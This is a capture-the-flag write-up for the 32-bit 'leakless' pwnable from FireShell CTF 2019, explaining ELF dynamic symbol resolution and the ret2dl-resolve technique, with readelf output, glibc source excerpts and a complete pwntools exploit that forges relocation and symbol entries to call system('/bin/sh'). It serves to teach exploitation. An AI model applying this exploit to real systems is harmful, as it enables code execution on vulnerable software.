

# Leakless.md

This is a pwnable from FireShell CTF 2019.

### Reconnaissance

This is a 32-bit binary executable that receives input from the user but provides no additional input concerning what this is for. The first thing I did was to disable the alarm on my local version to allow for debugging. I also ran `checksec`, which shows that PIE is disabled -- I can probably return to specific addresses in memory.


Stackguard is disabled for this executable, so it's possible to overwrite the return address of `feedme` with an address of my choice. That appears to reduce the problem to a simple ROP problem, and now the question is how to generate a ROP chain to spawn a shell.

During the competition I quickly discussed this with a team member, and noticing the presence of `puts` in the GOT, we figured that I could just use a call to `puts` to leak a `libc` address from the GOT, then return to `main`. Then, the second time through I could put `/bin/sh` in the `.bss` section, and then return to `system` passing a pointer to `/bin/sh` as a parameter.

Here's the only call to `puts` in the source code:


If I leak `puts`, I immediately exit. Perhaps, I thought, I could get around that by overwriting `exit` in the Global Offset Table with the address of `main`, and I could have my ROP chain jump to `read` to do just that. `exit` is in the Global Offset Table at `0804a01c` (a call to `readelf -r ./leakless` shows that).

Here's a gadget I can use:

`0x0804869b : pop ebp ; ret`

The address of `exit+0x48` is `0x804a064`, so in my ROP chain I want to return to my gadget to pop `%ebp`, then return to `0x080485df`, which sets up the call to `read`.

Looking good so far...


Now when `leave` gets called prior to the return call from `feedme`, I need to have written to the `.bss` section and have popped an address in the `.bss` section for `%ebp` so that I can pivot to the `.bss` section and continue my ROP chain. That's doable.

Around this time I realized that I don't know where `system` is, because I don't have access to the `libc` version running on the server. So I've cleverly figured out how to turn the so-called `leakless` problem into a leakable problem, but without `libc` I can't do anything. Darn!

Next I decided to just go ahead and read the [white paper](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-di-frederico.pdf) on the "leakless" exploit.

The idea is that I can hijack the dynamic loader to have it look up `system` instead of a function like `exit`, and then call `system` without my ever needing to know where it is located in `libc`. The authors of this white paper created a tool for this attack with the same name as the challenge: `leakless`. There is [source code for the leakless exploit](https://github.com/ucsb-seclab/leakless/blob/master/exploit.py), and I gather that 1 lot of people quickly solved this problem because they were using that tool. In my case, I decided not to directly run the tool in order to really understand how this exploit and the dynamic loader work for ELF binaries. It was the manual approach for me or bust.

### Anatomy of Dynamic Loading in Linux

Let me start with a brief review of how dynamic symbol lookup works for ELF binaries, to reinforce my knowledge and in order to jog my own memory in the future. The leakless paper includes some helpful diagrams, which I'll reproduce here.

People familiar with `ret2libc` attacks recognize that the Global Offset Table gets populated with pointers to functions. Binary executables that have been compiled with Partial (or no) RELRO make use of lazy loading: these pointers are only the actual pointers to functions in `libc` or elsewhere after the first time they are called. Beforehand, they are pointers to the Procedure Linkage Table (PLT). Dynamic symbol lookup takes place the first time the function is called, and I will present that below. In the case of Full RELRO, dynamic symbol lookup and the writing to the Global Offset Table of pointers to all the functions to be referenced during program execution takes place during program initialization, after which the entire Global Offset Table is marked read only (hence the name "RELRO" -- RELocation Read Only).

Let's step through how lazy loading works, using an example Procedure Linkage Table and Global Offset Table from the Leakless paper.



When a function such as `printf` gets called, program execution jumps to `printf@plt` with a command such as `call printf@plt`. At that point, we jump to whatever address is stored at the entry for `printf` in the Global Offset Table. As we've never called `printf` before in this example, the GOT entry for `printf` points us right back to `printf@plt+6`. The next set of steps set up a call to `_dl_runtime_resolve(link_map_obj, reloc_index)` where `reloc_index` has a value of `0`. This function call will store the address of `printf` in `libc` in the Global Offset Table at `0x208` in the example given. Without going into how `_dl_runtime_resolve` itself works, let's look at the structure of `link_map_obj` and the meaning of the offset passed into it by referencing Figure 1 from the paper.


The `.rel.plt`, `.dynsym`, and `.dynstr` sections are read-only, so an attacker cannot modify them. The leftmost data structure in Figure 1 is the `link_map_obj` structure, and it is stored in the `.rel.plt` section of the ELF binary. It is a table comprised of a set of `Elf_Rel` structures, each of which contains an `r_offset` and `r_info` field. In the above example, the relocation index (`reloc_index`) of 0 points to the first such structure in the `link_map_obj` table. `r_offset` contains the address in the Global Offset Table where a pointer to the function corresponding to the desired string (in this case, `printf`) will be stored. `r_info` contains an _index_ into the `.dynsym` (dynamic symbol) section of the ELF binary, which is basically a big array of `Elf_Sym` data structures. Through a bit of (fairly simple) trickery, `r_info` is _also_ an index into an array of pointers to information about the GLIBC version number for each desired symbol, and I'll get to that in a bit. Let's first talk about the `Elf_Sym` data structures, which contain information about symbols. `st_name` contains an offset to a string containing the name of the symbol, which is stored in the `.dynstr` (dynamic string) section. The offset stored in `st_name` is measured relative to the start of the `.dynstr` section. `st_info` contains some additional information about the symbol that is not relevant here.

I mentioned that `r_info` also indirectly provides information about the desired version of the GLIBC function associated with the symbol name. There's another read-only section, `.gnu.version`, that stores a set of pointers to `Elf_Verdef` structures stored in the `.gnu.version-r` section. So we follow the offset in `r_info` to a pointer to the `Elf_Verdef` structure, which contains information that tells us something along the lines of "please use GLIBC 25.0 or higher when referencing `printf`".

Summing all of this up, `_dl_runtime_resolve(link_map_obj, 0)` will look at the 0th element of the `link_map` object, get its `r_info` element, look up the relevant `Elf_Sym` structure in the `.dynsym` section using the offset stored in `r_info`, use the `st_name` field of that `Elf_Sym` structure to get an offset into the `.dynstr` section, and retrieve the string `printf` from that section. Then it will use the `r_info` element already referenced to get an offset into the `.gnu.version` section, and follow the pointer stored there to the `.gnu.version-r` section for information about the version number. Then, using code not important to the attack on this whole process, `_dl_runtime_resolve(link_map_obj, 0)` will look up the string and version number in the provided `libc` version, then store the address of `printf` back in the Global Offset Table at `0x208`. Subsequent calls to `printf@plt` will jump straight to that address.

### Attacking Dynamic Symbol Resolution

According to the `Leakless` paper, hijacking dynamic symbol resolution can be done in one of two ways. Were the binary not protected by even partial RELRO, I could overwrite the `DT_STRTAB` entry of the `.dynamic` section, which is a pointer to the `.dynstr` section. I could then put a fake `.dynstr` section in the `.bss` section, and thus return a string such as `system` or `execve` when another symbol such as `printf` gets resolved. But, in the present case, with partial RELRO in place, I need to do something more sophisticated.

The second approach for attacking dynamic symbol resolution is illustrated in the following diagram from the white paper:


The idea is to exploit a flaw in the `_dl_runtime_resolve` code that does not check that the offset specified by the unsigned integer `reloc_index` maps to an address in `.rel.plt`. Accordingly, since the `.bss` section generally always exists in memory after the `.rel.plt` section (and does for the current binary), it is possible to specify a value for the relocation index that is large enough to refer to a location in the `.bss` section under the control of the attacker. In particular, I need a value `reloc_index` such that `baseof(.rel.plt) + reloc_index * sizeof(Elf_Rel)` is located in the `.bss` section. In my ROP chain, I can push the desired value of the relocation index onto the stack, then jump to `PLT0`. Next, I would need to specify a fake value of an `Elf_Rel` structure, with fake `r_info` and `r_offset` values. The `r_offset` value would contain the address in the Global Offset Table where I wish to place a pointer to `system` or `execve`, and the `r_info` value would be a value `idx` such that `baseof(.dynsym)+idx·sizeof(ElfSym)` is also located in the `.bss` section (see the white paper, Appendix A) and contains a fake `Elf_Sym` structure that I would craft. That location could be conveniently located right after the fake `Elf_Rel` structure as indicated in the diagram.

A point that threw me at first is that this value `idx` is also used to look up the version number of the desired symbol. The white paper states that if the look-up results in a 0 or a 1, the version number is ignored completely, which is advantageous. The paper gives a set of constraints to make this happen:

```
ver=baseof(.gnu.version)+idx·sizeof(ElfVerneed)
verdef=baseof(.gnu.versionr)+ ∗(ver)·sizeof(ElfVerdef)
```

The attacker needs `ver` to point to memory that contains a 0 or a 1, or else needs `verdef` to point to an appropriately-crafted `verdef` structure. During the competition, I was unable to make setting `ver` to point to zero work effectively. Instead, in manually implementing this attack I performed the laborious task of stepping through a correct lookup of a `system` symbol in GDB for a C program that I had written and compiled, then found a value for `idx` that would cause `_dl_runtime_resolve` to look up a version number for `system` that was exactly correct. It was a difficult endeavor, but I got it to work.

Next, I need the fake `Elf_Sym` structure to contain an `st_name` field with an offset that points to a string with a value of "system". In particular, I need that `baseof(.dynstr) + st_name` is the address in the `.bss` section of the string "system".

That's a lot of structures to write, and the developers of the `leakless` exploit have written a tool that will do all the analysis and return an appropriate ROP chain for the binary.

### Crafting the Exploit

Starting out, I need some information about where the offsets to the various sections of the executable are located. That's easy obtainable with a call to `readelf -S`:

```
Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .interp           PROGBITS        08048154 000154 000013 00   A  0   0  1
  [ 2] .note.ABI-tag     NOTE            08048168 000168 000020 00   A  0   0  4
  [ 3] .note.gnu.build-i NOTE            08048188 000188 000024 00   A  0   0  4
  [ 4] .gnu.hash         GNU_HASH        080481ac 0001ac 000020 04   A  5   0  4
  [ 5] .dynsym           DYNSYM          080481cc 0001cc 0000c0 10   A  6   1  4
  [ 6] .dynstr           STRTAB          0804828c 00028c 000076 00   A  0   0  1
  [ 7] .gnu.version      VERSYM          08048302 000302 000018 02   A  5   0  2
  [ 8] .gnu.version_r    VERNEED         0804831c 00031c 000020 00   A  6   1  4
  [ 9] .rel.dyn          REL             0804833c 00033c 000018 08   A  5   0  4
  [10] .rel.plt          REL             08048354 000354 000038 08  AI  5  23  4
  [11] .init             PROGBITS        0804838c 00038c 000023 00  AX  0   0  4
  [12] .plt              PROGBITS        080483b0 0003b0 000080 04  AX  0   0 16
  [13] .plt.got          PROGBITS        08048430 000430 000008 08  AX  0   0  8
  [14] .text             PROGBITS        08048440 000440 000262 00  AX  0   0 16
  [15] .fini             PROGBITS        080486a4 0006a4 000014 00  AX  0   0  4
  [16] .rodata           PROGBITS        080486b8 0006b8 000011 00   A  0   0  4
  [17] .eh_frame_hdr     PROGBITS        080486cc 0006cc 000054 00   A  0   0  4
  [18] .eh_frame         PROGBITS        08048720 000720 000158 00   A  0   0  4
  [19] .init_array       INIT_ARRAY      08049f04 000f04 000004 04  WA  0   0  4
  [20] .fini_array       FINI_ARRAY      08049f08 000f08 000004 04  WA  0   0  4
  [21] .dynamic          DYNAMIC         08049f0c 000f0c 0000e8 08  WA  6   0  4
  [22] .got              PROGBITS        08049ff4 000ff4 00000c 04  WA  0   0  4
  [23] .got.plt          PROGBITS        0804a000 001000 000028 04  WA  0   0  4
  [24] .data             PROGBITS        0804a028 001028 000008 00  WA  0   0  4
  [25] .bss              NOBITS          0804a030 001030 000004 00  WA  0   0  1
  [26] .comment          PROGBITS        00000000 001030 000025 01  MS  0   0  1
  [27] .symtab           SYMTAB          00000000 001058 0004a0 10     28  44  4
  [28] .strtab           STRTAB          00000000 0014f8 000271 00      0   0  1
  [29] .shstrtab         STRTAB          00000000 001769 000105 00      0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  p (processor specific)
```

First, I set up a pivot to the `.bss` section, and wrote my fake `Elf_Sym` and `Elf_Rel` structures below the continuation of my ROP chain. I chose `0x0804ad04` as the start of the information I would read to the `.bss` section. Because `.rel.plt` is located at `0x08048354`, the `reloc_index` (i.e. offset) value that I use to reference my fake `Elf_Rel` structure is `0x29b0` (`0x08048354 + 0x29b0 = 0x0804ad04`). Next, the `r_offset` value that I use is `0x0804a01c` (the GOT address for the `exit` function). Technically I can put any writable address in here, but it's fun to write the address for `system` there and then jump to `exit` in my ROP chain after forcing the lookup for `system` -- that spawns a shell twice! For `r_info`, I need an offset that will point to my fake `Elf_Sym` structure.

When calculating the needed value of `r_info`, I discovered that the white paper doesn't give the full story. The actual value for the offset that I want is `0x2b507`. Actually, the last byte of this value is not used to calculate the offset at all, but instead appears to be a set of flags used in determining the version number for the symbol. To get to my fake `Elf_Sym` structure, `_dl_runtime_resolve` (technically, `_dl_fixup`, which is called by `_dl_runtime_resolve`) starts with the base of the `.dynsym` section, `0x080481cc`, and adds `16 * (0x2b507/256)`, or `0x2b50`, to get `0x804ad1c`. So I'm placing my fake `Elf_Sym` structure at `0x0804ad1c`, and I guess we can infer that `sizeof(Elf_Sym) = 16`, at least for 32-bit binaries. Why do I need the last byte of the `r_info` value to be `0x07`? I just noticed that the `dl_fixup` code checks that this last byte is exactly `0x07`. Presumably that corresponds to three flags being set.

More information about `r_info` is [here](https://code.woboq.org/userspace/glibc/elf/elf.h.html#(anonymous)::r_info). See lines 667-671:

```
/* How to extract and insert information held in the r_info field.  */
#define ELF32_R_SYM(val)                ((val) >> 8)
#define ELF32_R_TYPE(val)                ((val) & 0xff)
#define ELF32_R_INFO(sym, type)                (((sym) << 8) + ((type) & 0xff))
```

After the competition I solved the mystery involving why the last byte must be `0x07`. See the code for `dl_runtime.c` [here](https://code.woboq.org/userspace/glibc/elf/dl-runtime.c.html#229)(lines 79-80):

```
/* Sanity check that we're really looking at a PLT relocation.  */
assert (ELFW(R_TYPE)(reloc->r_info) == ELF_MACHINE_JMP_SLOT);
```

Digging through the source code a bit further shows that `ELF_MACHINE_JMP_SLOT` is `0x7` (defined in elf.h):

```
./elf/elf.h:3410:#define R_X86_64_JUMP_SLOT	7	/* Create PLT entry */
```

(While debugging in a fog late at night, I thought the check was related to the version number, but it turns out to be a sanity check that the `r_info` structure has an `R_TYPE` field that really does refer to a symbol in the procedure linkage table that is getting looked up, apparently as opposed to some other relocation type.)

In writing up this problem, I needed to know more information about the `ELF_Sym` structure than the white paper describing the exploit gave me. From `elf.h`, we have:

```
/* Symbol table entry.  */
typedef struct
{
  Elf32_Word        st_name;                /* Symbol name (string tbl index) */
  Elf32_Addr        st_value;                /* Symbol value */
  Elf32_Word        st_size;                /* Symbol size */
  unsigned char        st_info;                /* Symbol type and binding */
  unsigned char        st_other;                /* Symbol visibility */
  Elf32_Section        st_shndx;                /* Section index */
} Elf32_Sym;
```

I also need the `visibility` of the `ELF_Sym` structure to be set to `0`, in order for the lookup to proceed in the `dl_fixup` function.

Here's my fake `ELF_Sym` structure:


The offset from `.dynstr` to the symbol name is `0x2b1c`, and the other fields don't really matter except that the visibility (byte 14) has to be `0x0`. The start of `.dynstr` plus that offset points back to the `.bss` section, to my string, `system`:


#### Getting the version number right

This was the trickiest part for me. Here's the relevant assembly language in `dl_fixup` that involves the test of whether the version information is null:

```
0xf7fc9fa7 <_dl_fixup+103>    mov    edx, dword ptr [ebx + 4]
► 0xf7fc9faa <_dl_fixup+106>    movzx  edx, word ptr [edx + esi*2]
0xf7fc9fae <_dl_fixup+110>    and    edx, 0x7fff
0xf7fc9fb4 <_dl_fixup+116>    shl    edx, 4
0xf7fc9fb7 <_dl_fixup+119>    add    edx, dword ptr [eax + 0x170]
0xf7fc9fbd <_dl_fixup+125>    mov    ebx, dword ptr [edx + 4]
0xf7fc9fc0 <_dl_fixup+128>    test   ebx, ebx
```

`[ebx + 4]` refers to the start of the `.gnu.version` section, and register `esi` contains the `R_SYM` field of the `r_info` structure (`0x2b5` in this case). The assembly language corresponds to the following source code (from `dl-runtime.c`):

```
const ElfW(Half) *vernum =
  (const void *) D_PTR (l, l_info[VERSYMIDX (DT_VERSYM)]);
ElfW(Half) ndx = vernum[ELFW(R_SYM) (reloc->r_info)] & 0x7fff;
version = &l->l_versions[ndx];
if (version->hash == 0)
version = NULL;
```

When the instruction at address `0xf7fc9fbd` is called, `edx` is a pointer to the following [structure](https://code.woboq.org/userspace/glibc/sysdeps/generic/ldsodefs.h.html#r_found_version):

```
struct r_found_version
  {
    const char *name;
    ElfW(Word) hash;
    int hidden;
    const char *filename;
};
```

So `version->hash` is getting referenced, and there's a test whether it's zero.

The start of the `.dynstr` section consists of a bunch of shorts indicating the version numbers of the various symbols to be looked up:


Most of these offsets are 0, 1, or 2. It looks like the `vernum` table is just a very small section at the start of the `.dynstr` section -- that wasn't referenced in the `leakless` white paper. In any case, let's take a look at that table of `r_found_version` structs, which I found by stepping through the `dl_fixup` code with GDB. That table is stored in the writable portion of `libc` in memory:


Each 16 lines correspond to an `r_found_version` structure. So, I've engineered an offset in the `r_info` field that happens to point to a short with a value of `0x2`, which corresponds to the `r_found_version` structure starting at `0xf7fb4410` above (`0x080482e9` points to a string, "GLIBC2.0" and `0xd696910` is a hash). Notice that had I pointed to shorts with values of 0, 1, 3, 4, 7, or 8 (probably among others), the `version->hash` field would have been null, the version number would have been null, and I could have ignored the version. So, there were probably plenty of other ways to choose the `R_SYM` field of the `r_info` value that would have led to valid version numbers. In any case, I made my life a little more difficult during the competition by requiring the short to be `0x2`. That was the most challenging part of the problem -- finding a value of the `R_SYM` field in `r_info` such that `.dynstr + 2*R_SYM` pointed to a short with a value of `0x2` (as it turns out, `0x0` or `0x1` will do among other values) and `.dynsym + 16*R_SYM` points to my fake `Elf_Sym` structure in the `.bss` section. The `leakless` tool satisfies this constraint automatically for the user.

#### Setting up the ROP chain

I realized that I could not directly execute code that would set up the call to `dl_runtime_resolve`. Instead I needed to place the offset to my fake relocation entry and the address of the first entry of the global offset table on the stack as arguments for `dl_runtime_resolve`, then return to the command that directly calls it.

With that, I could get the flag!


Just for fun, the version provided with my cleaned-up code gets a shell twice: the first time when forcing a dynamic symbol lookup, the second when calling `exit` after that lookup has placed the address of `system` in the Global Offset Table under the entry for `exit`. Exiting from the first shell continues the ROP chain, giving me a second shell.


In practice, during the competition, I worked with [this DEFCON talk](https://media.defcon.org/DEF%20CON%2023/DEF%20CON%2023%20presentations/DEFCON-23-Alessandro-Di-Federico-Leakless-How-The-ELF-ruined-Christmas.pdf), which has some useful information about how to calculate the offsets (slide 42 from the talk):


The trouble is, these calculations ignore some very important details, such as the subtleties of the version number lookup and the fact that the `Elf32_Rel.r_info` given is for the first bytes of that value, the `R_SYM` field, and in fact I needed to tack on an `0x07` byte to the end. The slide shown is probably a simplified computation designed for an audience to grasp the general concept within the boundaries of a conference talk. The result is that I had to rely on debugging to get me through some of those details, and I only thoroughly understood those details when I wrote up the solution.

Here's my exploit code:
```
# exploit-leakless.py

from pwn import *
from time import sleep


local=True
if local:
    p = process('./leakless')
    DELAY = 0.2
else:
    p = remote('35.243.188.20', 2002)
    DELAY = 1

### Calculating offsets ###########
#
rel_plt_base = 0x08048354
bss_base = 0x0804a030
dynsym_base = 0x080481cc
dynstr_base = 0x0804828c
# offset designed to satisfy the constraints for the r_info field
# described in the write-up
new_bss_base = bss_base + (0x0804ad4c - 0x0804a064)
#
exit_to_bss_base_offset = 0x14
target_reloc_addr = new_bss_base - 0x14
reloc_index = target_reloc_addr - rel_plt_base #/ 8 slide is somehow wrong
#got1_addr = 0x0804a004 # GOT[1]
call_runtime_resolve_addr = 0x80483b0 # push *0x0804a004, jmp 0x0804a008. This is also PLT0
log.info("reloc_index = " + hex(reloc_index))
#
sym_table_offset =  (new_bss_base + 0x4 - 0x080481cc)/16  # want this to be 0x0804ac40
#
log.info("sym_table_offset = " + hex(sym_table_offset))
target_rinfo = sym_table_offset * 256 + 7
log.info("r_info = " + hex(target_rinfo))
#
target_symbol_offset_from_dynstr_base = 0x804ada8 - dynstr_base # 0x25b0
log.info("target_symbol_offset_from_dynstr_base = " + hex(target_symbol_offset_from_dynstr_base))
#
###############################

### First payload #############
#
POP_EBP_ADDR = 0x0804869b
BSS_BUFFER_ADDR = 0x0804ad04
payload = 'A'*76
#
## ROP chain for first payload starts here
payload += p32(POP_EBP_ADDR) # pop ebp
#
# location chosen to get the version number right,
# buffer starts at 0x0804ad04 ([ebp-0x48])
payload += p32(BSS_BUFFER_ADDR+0x48)
#
# start of read in feedme function
payload += p32(0x080485df)
#
# start of feedme function (read second payload), so we read the second
# payload to BSS_BUFFER_ADDR - 0x48 right here. Then return control
# flow to BSS_BUFFER_ADDR.
payload += p32(0x080485cc)
payload += '\n'
p.send(payload)
#
################################

time.sleep(DELAY)

####### Second payload #########
#
### Fake Elf_Rel structure (relocation table entry)
#
## target_roffset: exit@plt. We never will need to call exit anyway,
# but I do just for fun.
payload2 = p32(0x0804a01c)
#
## target_rinfo
# Debugging indicates that target_rinfo must end in a 7 for the
# version lookup to work properly. Later I figured out why -- see the writeup.
#
payload2 += p32(target_rinfo) # 0x0002b507
#
###
#
## Some filler
payload2 += 'A'*16
#
#
### Fake dynamic symbol table entry. From elf.h:
'''
/* Symbol table entry.  */
typedef struct
{
  Elf32_Word        st_name;                /* Symbol name (string tbl index) */
  Elf32_Addr        st_value;                /* Symbol value */
  Elf32_Word        st_size;                /* Symbol size */
  unsigned char        st_info;                /* Symbol type and binding */
  unsigned char        st_other;                /* Symbol visibility */
  Elf32_Section        st_shndx;                /* Section index */
} Elf32_Sym;
'''
#0x2b1c (st_name). .dynstr is at 0x0804828c, so 0x0804828c + 0x2b1c = 0x0804ada8
# which is where "system" is stored.
#
payload2 += p32(target_symbol_offset_from_dynstr_base) #st_name
payload2 += 'CCCC' # I don't care about st_value
#
# During the competition, I just set this to pass the st_other check
# (had to be 0x0) without really understanding what the code was doing.
# But I now recognize that having the visibility set to 0 means that
# we continue looking up the symbol.
payload2 += p32(0x0) * 2
### End of fake dynamic symbol table entry
#
#
### This part is just more filler, basically, to get me to the ROP chain.
payload2 += 'A'*36
#
#
### Start of ROP chain #2.
## This is the only entry in the chain
## because we immediately call system here.
payload2 += p32(call_runtime_resolve_addr) # PLT0
payload2 += p32(reloc_index) #
# esp will be pointing here when we return from looking up system
# the return address when we get to the system call, its value doesn't matter
# because we don't return from system.
# Just for fun, though, let's make it a call to _exit. That should call two
# shells.
payload2 += p32(0x0804855f) # call _exit
# pointer to /bin/sh, the argument to system that's stored on the stack
payload2 += p32(0x0804ad90)
payload2 += p32(0x0)
### End of ROP chain #2.
#
### Some filler and the /bin/sh pointer
payload2 += 'A'*44
payload2 += '/bin/sh\x00'
payload2 += 'A'*16
#
### Fake .dynstr entry
payload2 += 'system\x00\x00' # address: 0x0804ada8 = .dynstr + 0x2b1c
#
payload2 += '\n'
#
##############################

time.sleep(DELAY)
p.send(payload2)

p.interactive()
```

### Future work / comparison to other solutions

I'd like to take the `leakless` program and run it on this binary to generate a ROP chain, then compare it to the one I generated manually. I'm going to do that before comparing my approach to other write-ups.
